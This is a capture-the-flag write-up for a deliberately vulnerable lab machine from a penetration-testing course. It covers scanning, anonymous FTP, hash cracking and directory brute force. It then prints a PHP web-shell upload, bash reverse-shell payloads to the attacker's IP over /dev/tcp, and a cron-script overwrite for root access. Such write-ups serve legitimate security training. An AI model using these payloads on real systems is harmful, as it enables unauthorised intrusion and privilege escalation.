









------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.



After starting the target VM.




Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open.

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl






The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.




There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting:
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/

Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.


Let's try the login credentials `10201321:student` that we found previously from ftp note.


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.




we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com






In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.




Reverse shell payload to get shell as root:

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`


Flag:


Happy Hacking
